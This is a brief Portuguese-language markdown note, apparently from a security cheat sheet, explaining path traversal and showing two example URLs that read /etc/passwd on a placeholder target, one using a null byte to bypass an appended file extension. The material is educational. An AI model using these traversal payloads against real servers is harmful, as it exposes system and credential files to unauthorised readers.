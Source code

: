 # Path Traversal / Directory Traversal

É a possibilidade de visualizar arquivos e diretórios do servidor através de um parâmetro sem validação.

`http://www.alvo.com.br/logado.php?param=/../../../../etc/passwd`

## Bypass em extensões incluídas automáticamente

Algumas aplicações incluem uma extensão no final do valor do parâmetro enviado, para realizar um bypass envie um `null byte` no final do paylod.

`http://www.alvo.com.br/logado.php?param=/../../../../etc/passwd%00`